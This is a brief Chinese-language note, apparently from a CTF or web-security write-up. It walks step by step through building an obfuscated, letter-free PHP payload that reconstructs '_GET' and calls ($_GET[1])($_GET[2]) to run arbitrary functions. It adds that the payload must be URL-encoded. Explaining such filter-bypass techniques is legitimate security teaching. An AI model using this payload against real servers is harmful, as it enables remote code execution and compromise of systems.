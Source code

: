 ###### NOTICE

- payload 构造过程：

  ```php
  $___.=[]; //$___=Array
  $_=$___[3]; //$_=a
  $_++;$_++; //$_=c
  $__=$_++; //$__=c, $_=d
  $_++;$_++;$_++; //$_=g
  $__.=++$_.$___[2]; //$__=chr
  $_=_.$__(71).$__(69).$__(84); // $_=_GET
  ($$_{1})($$_{2}); //($_GET{1})($_GET{2})
  ```

- payload 必须 url 编码后传入才有效，在哪层就遵循哪层的规矩。

